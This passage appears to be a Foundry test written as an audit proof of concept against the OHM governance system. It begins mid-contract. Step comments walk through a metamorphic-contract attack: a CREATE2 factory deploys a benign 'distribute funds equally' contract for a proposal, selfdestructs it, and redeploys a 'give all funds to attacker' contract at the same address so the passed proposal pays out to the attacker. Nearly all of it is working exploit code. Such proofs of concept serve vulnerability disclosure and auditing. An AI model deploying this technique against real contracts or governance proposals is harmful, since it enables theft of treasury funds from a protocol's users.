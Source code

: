 ```solidity
    function distributeFunds(address alice, uint256 aAmount, address bob, uint256 bAmount, address carol, uint256 cAmount) public payable {
        console.log("Sending _all_ funds to the attacker instead ", attacker);
    }
}

contract Factory {
    function helloA() public returns (address) {
        return address(new DistributeFundsEqually());
    }

    function helloB() public returns (address) {
        return address(new GiveAllFundsToAttacker(address(0x1337)));
    }

    function cleanUp() public {
        selfdestruct(payable(address(0)));
    }
}

contract MetamorphicContract is Test {
    DistributeFundsEqually private a;
    Factory private factory;

    function setUp() public {
        /** Step 1: deploy original contract that everyone will look at for the proposal. Nobody has to know about the factory, and it won't have verified source on etherscan **/
        factory = new Factory{salt: keccak256(abi.encode("random"))}();
        a = DistributeFundsEqually(factory.helloA());

        /** Step 2: create a proposal that will call a.distributeFunds(), with funds transferred from the OHM Kernel TRSRY module, to each of the listed recipients with the specified values **/
        // will use vm.deal() and a direct call, rather than doing the proposal setup stuff in this test
        
        /** Step 3: wait for the proposal to pass **/

        /** Step 4a: selfdestruct things to a new attacker contract can be created at the same address as the original DistributeFundsEqually contract **/
        /// @dev Call `selfdestruct` during the `setUp` call (see https://github.com/foundry-rs/foundry/issues/1543).
        a.cleanUp();
        factory.cleanUp();
    }

    function testMorphingContract() public {
        /// @dev Verify that the code was destroyed during the `setUp` call.
        assertEq(address(a).code.length, 0);
        assertEq(address(factory).code.length, 0);

        /** Step 4b: create the new GiveAllFundsToAttacker contract at the same address as the original DistributeFundsEqually contract **/
        /// @dev Redeploy the factory contract at the same address.
        factory = new Factory{salt: keccak256(abi.encode("random"))}();
        /// @dev Deploy another logic contract at the same address as previously contract `a`.
        GiveAllFundsToAttacker b = GiveAllFundsToAttacker(factory.helloB());
        assertEq(address(a), address(b));
        
        /** Step 5: execute() the proposal, seeing that all funds get sent to the attacker **/
        vm.deal(address(this), 99 ether);
        a.distributeFunds{value: 99}(address(0x0a), 33 ether, address(0x0b), 33 ether, address(0x0c), 33 ether);
    }
```